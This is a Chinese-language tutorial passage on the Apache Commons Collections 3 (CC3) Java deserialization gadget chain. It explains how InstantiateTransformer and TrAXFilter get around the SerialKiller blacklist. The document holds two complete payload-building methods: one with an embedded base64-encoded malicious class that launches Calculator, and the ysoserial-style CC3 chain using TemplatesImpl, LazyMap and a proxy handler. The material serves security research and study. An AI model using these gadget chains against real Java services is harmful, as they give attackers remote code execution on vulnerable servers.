


# CommonsCollections3

## 0x01 TemplatesImpl

关于 `TemplatesImpl` 的分析在 [TemplatesImpl 改造](/docs/01-PPPYSO/02-advance/01-TemplatesImpl/01-TemplatesImpl.md) 中具体分析，这里就直接给出 CC链的写法。

下述这段代码与 ysoserial 中并不相同，ysoserial 中是这样描述 CC3 的 `Variation on CommonsCollections1 that uses InstantiateTransformer instead of InvokerTransformer.`，为什么要使用 `InstantiateTransformer` 呢？因为攻防总是相伴相随的，ysoserial 公布后随之公布了相对应的防护工具 [SerialKiller](https://github.com/ikkisoft/SerialKiller) ，SerialKiller 是一个反序列化过滤器，使用黑白名单的方式来限制反序列化类，可以看到后续的很多组件在修复反序列化漏洞时都延续了这个思想（fastjson、struts2）。第一版的黑名单中限制了 `org.apache.commons.collections.functors.InvokerTransformer` ，因此我们要寻找新的 chain

```java
    public Object getObject(final String command) throws Exception {
        String calcBase64 = "yv66vgAAADQAMAoABwAiCgAjACQIACUKACMAJgcAJwcAKAcAKQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAgTGNvbS93aG9vcHN1bml4L3Z1bC91dGlscy9FeGVjMjsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAKgEAEE1ldGhvZFBhcmFtZXRlcnMBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAJwEAClNvdXJjZUZpbGUBAApFeGVjMi5qYXZhDAAIAAkHACsMACwALQEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMAC4ALwEAE2phdmEvbGFuZy9FeGNlcHRpb24BAB5jb20vd2hvb3BzdW5peC92dWwvdXRpbHMvRXhlYzIBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAYABwAAAAAABAABAAgACQABAAoAAAAvAAEAAQAAAAUqtwABsQAAAAIACwAAAAYAAQAAAAwADAAAAAwAAQAAAAUADQAOAAAAAQAPABAAAwAKAAAAPwAAAAMAAAABsQAAAAIACwAAAAYAAQAAABcADAAAACAAAwAAAAEADQAOAAAAAAABABEAEgABAAAAAQATABQAAgAVAAAABAABABYAFwAAAAkCABEAAAATAAAAAQAPABgAAwAKAAAASQAAAAQAAAABsQAAAAIACwAAAAYAAQAAABwADAAAACoABAAAAAEADQAOAAAAAAABABEAEgABAAAAAQAZABoAAgAAAAEAGwAcAAMAFQAAAAQAAQAWABcAAAANAwARAAAAGQAAABsAAAAIAB0ACQABAAoAAABPAAIAAQAAAA64AAISA7YABFenAARLsQABAAAACQAMAAUAAwALAAAAEgAEAAAADwAJABEADAAQAA0AEgAMAAAAAgAAAB4AAAAHAAJMBwAfAAABACAAAAACACE=";
        byte[] bytes = java.util.Base64.getDecoder().decode(calcBase64);
        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl templates = new com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl();
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        Reflections.setFieldValue(templates, "_name", "anystr");
        Reflections.setFieldValue(templates, "_tfactory", new com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl());
//        templates.newTransformer();

        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", new Class[0], new Object[0]),
                new ConstantTransformer(1),
        };
        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

        final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

        return handler;
    }
```

## 0x02 TrAXFilter

CC3 中用到 `com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`这个类。`TrAXFilter` 的构造方法中接收 Templates 对象，并调用了 `(TransformerImpl) templates.newTransformer()` 方法。



## 0x03 InstantiateTransformer

接下里继续寻找如何调用 `TrAXFilter` 的构造方法，在 `commons-collections` 中存在一个类 `InstantiateTransformer` 可以用来创建类实例。



最后结果如下

```java
public Object getObject(final String command) throws Exception {
   Object templatesImpl = Gadgets.createTemplatesImpl(command);

   // inert chain for setup
   final Transformer transformerChain = new ChainedTransformer(
      new Transformer[]{ new ConstantTransformer(1) });
   // real chain for after setup
   final Transformer[] transformers = new Transformer[] {
         new ConstantTransformer(TrAXFilter.class),
         new InstantiateTransformer(
               new Class[] { Templates.class },
               new Object[] { templatesImpl } )};

   final Map innerMap = new HashMap();

   final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

   final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

   final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

   Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

   return handler;
}
```

